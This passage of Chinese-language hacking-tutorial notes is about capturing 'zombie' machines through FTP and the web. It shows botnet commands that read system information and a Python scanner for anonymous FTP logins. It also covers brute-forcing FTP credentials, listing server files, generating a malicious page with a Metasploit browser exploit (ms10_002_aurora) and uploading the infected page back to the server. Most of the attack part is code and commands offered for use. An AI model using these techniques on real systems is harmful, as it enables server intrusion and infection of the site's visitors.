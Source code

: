 ```python
    bot_net_command("uname -v")
    bot_net_command("cat /etc/issue")
```
## 利用 FTP 与 Web 批量抓 “肉机”

### 用 Python 构建匿名 FTP 扫描器

可以利用 Python 中的 ftplib 库编写一个小脚本，确定一个服务器是否允许匿名登录

```python
import ftplib
def anon_login(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login("anonymous", "me@your.com")
        print("[*] {} FTP Anonymous Logon Succeeded.".format(host))
        ftp.quit()
        return True
    except Exception as e:
        print("[-] {} FTP Anonymous Logon Failed.".format(host))
        return False


if __name__ == "__main__":
    host = "192.168.158.161"
    anon_login(host)
```

### 使用 Ftplib 暴力破解 FTP 用户口令

`FileZilla` 之类的 FTP 客户端程序往往将密码以明文形式存储在配置文件中

只要将上面的 `ftp.login()` 替换上对应的用户名和密码就可以验证了

### 在 FTP 服务器上搜索网页

使用 `nlst` 函数，这会列出目录中所有文件的命令

```python
dir_list = ftp.nlst()
```

### 在网页中加入恶意注入代码

直接使用 `metasploit` 框架生成：

```shell
msfcli exploit/windows/browser/ms10_002_aurora
```

上传的命令：

```python
ftp.storlines("STOR {}".format(page), open("{}.tmp".format(page)))
```
